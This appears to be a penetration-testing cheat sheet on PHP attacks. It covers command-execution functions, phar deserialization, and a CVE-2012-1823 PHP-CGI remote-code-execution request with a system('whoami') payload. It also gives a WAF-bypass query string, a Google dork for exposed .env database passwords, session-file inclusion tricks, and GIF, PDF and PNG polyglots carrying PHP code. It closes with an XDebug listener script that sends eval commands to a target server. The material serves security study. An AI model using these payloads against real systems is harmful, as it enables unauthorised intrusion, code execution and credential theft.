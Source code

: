 # PHP

## Command execution

Here is a list of functions to execute commands on a system:

```
exec
passthru
shell_exec
system
proc_open
popen
`{CMD}`
curl_exec
curl_multi_exec
```


## Deserialization

### Phar deserialization

The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)


## Bypass WAF in PHP

From [Abusing PHP query string parser to bypass IDS, IPS, and WAF](https://www.secjuice.com/abusing-php-query-string-parser-bypass-ids-ips-waf/):

```
/news.php?%20news[id%00=42 ==> $_GET["news_id"]
```


## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```


## PHP session files

On PHP the directive [`session.save_path`](https://www.php.net/manual/en/session.configuration.php#ini.session.save-path)
set the folder where PHP will store the session files. So the session files are
written on the disk. A malicious user may read this files to retrieve information.

On a Windows system (IIS), the default value create files in `C:\Windows\Temp`
with the name `sess_<session_id>`. The `<session_id>` is the value of the
`PHPSESSIONID` cookie. When you have a `Local File Inclusion` (LFI) vulnerability,
it's possible to include this kind of files.

This file contains some user's session variable. So a user can write some PHP
code like `<?php phpinfo() ?>` (as a username for example) in his session and
try to include the file to execute the PHP code.

Here is 2 examples of exploitation:

- The `Alcatel Omnivista 8770` uses this trick to fetch some internal session variable
from the user session. The [exploit](https://www.exploit-db.com/exploits/47761)
gets the session file that is accessible on the server `/session/sess_<session_id>`.

- `ippsec` use this technique in the HTB box [`Sniper`](https://www.youtube.com/watch?v=k7gD4ufex9Q&t=3255s)
to create a use with a username that contains some PHP code. Then he includes
the session file with a LFI.


## PHP type juggling

An application may compare a user input with a string value. For instance, a user
provide an API-Key then it's possible to supply the integer `0` in some `JSON`
payload to bypass some checks.

*Explanation*

- https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
- https://www.synacktiv.com/sites/default/files/2021-10/advisory_Jeedom_Auth_Bypass_CVE-2021-42557.pdf


## PHP Polyglot file

A polyglot file is valid in two different format. For instance a valid `GIF`
file that contains a PHP payload.


### GIF89

[This file](/assets/polyglot.php.gif)) contains a PHP payload in the [Comment
Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF:

```bash
hexdump -C assets/polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

### PDF

You can add a comment (`%`) on the PDF header:

```pdf
%PDF-1.2 %<?phpinfo()?>
...
```


### PNG and IDAT chunks

[In this blog post](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/),
there is an example to create a PNG file that encode a [webshell](/webshell/)
in IDAT chunks.

The goal is to bypass some `PHP` functions such as `imagecreatefrompng`. The
exploit is [here](/assets/gen.php.png).


### Others formats

On most formats (mp3, jpg, ...) there is an `EOF` after what we can add the
payload. So the easiest way is to append to a valid file our payload:

```bash
cat valid.jpg payload.php > polyglot.php.jpg
```


## XDebug

Make a request with the following parameters and header:

```http
GET /path/to/file.php?XDEBUG_SESSION_START=phpstorm HTTP/1.1
...
X-Forwarded-For: {YOUR_IP}
HTTP_CLIENT_IP: {YOUR_IP}
```

Then on your server execute the following python script:

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
  client_data = conn.recv(1024)
  print(client_data)
  data = raw_input('>> ')
  conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

